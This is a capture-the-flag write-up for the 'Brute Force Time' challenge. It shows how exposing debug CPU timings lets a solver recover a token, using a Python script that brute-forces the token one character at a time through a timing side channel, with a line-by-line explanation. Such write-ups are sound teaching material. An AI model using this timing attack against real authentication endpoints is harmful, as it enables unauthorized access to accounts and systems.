




# CTF Writeup: Brute Force Time


In Brute Force Time, you are sent to a page with just a text box and a submit button. Obviously, you need to find the right password, or in this case token, to get the flag.

The first thing to notice is the commented out portion in the data.js file. 


Let’s investigate. We can uncomment it on the client side by using the dev tools equipped with chrome. 
![] (editing.png "Time to edit!")

Now, if we submit the something, we still have the wrong token problem. That would be too easy.
However, there is a difference in the server responses. We can view these in the network tab. In the response after the edit, we have the cpu start and end times. This is important because if we have our token partially correct, the server will take longer to respond, thus having a different start and end. An important thing to notice is that these times are encoded in base64, and if we decode them, we will get the actual times. 
So, let’s write a python program to help us.

```python
import requests
import base64

url = "http://ctf2.camscsc.org/4/bft/check/check.php"
alphabet = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','1','2','3','4','5','6','7','8','9','0','.',',','?','/','<','>','!','@','#','$','^','&','*','(',')','-','+','=','[',']','{','}','\\','|','']
r = ""
cpu_start = ""
cpu_end = ""
start = ""
s = 0
end = ""
end = 0
a = 0
z = ''
n = 0
x = True
for j in range(20):
	for i in range(len(alphabet)):
		if x:
			if alphabet[i] == '':
				x = False
			else:
				r = requests.post(url, {'token': z + alphabet[i],'debug':'1'})
				cpu_start = r.json()['cpu_start']
				cpu_end = r.json()['cpu_end']
				start = base64.b64decode(cpu_start.encode('utf-8')).decode('utf-8')
				s = float(start) * 10000
				end = base64.b64decode(cpu_end.encode('utf-8')).decode('utf-8')
				e = float(end) * 10000
				a = e - s

				if (a > (n + 0.2)):
						z = z + alphabet[i]
						n = a
						break
print(z)
```
Explanation: 
Lines 1-2: import requests and base64. This allows us to do decryption and send requests to the site. 

Line 4: Specify the url that we are attacking…I mean sending requests to.

Lines 5-16: Initialize variables. These will come in handy later.

Line 17: Set up a loop. This tells us how many letters we will check up to. As the password is most likely not longer than 20 characters, we will use 20. 

Line 18: Set up another loop. This loop is the loop that goes through the alphabet.

Line 19: This only runs when x is true. X will be false after the password is complete.

Line 20-21: Set x to false after checking all letters and none work (therefore the password is done)

Line 23: Send the request. Make sure debug is 1 so we are getting cpu start and end.

Line 24-25: Get the values of cpu start and end.

Line 26-29: Decode the start and end values. We will also multiply these by 10000 so we can operate in integers.

Line 30: Get the difference. 

Line 32: Check if the difference is of a significant amount.

Line 33: Add the character onto z (the password).

Line 34: Set the current time difference to whatever the last difference was.

Line 36: Tell us what the password is.

Let’s run this.



Oh look at this, this must be our token.

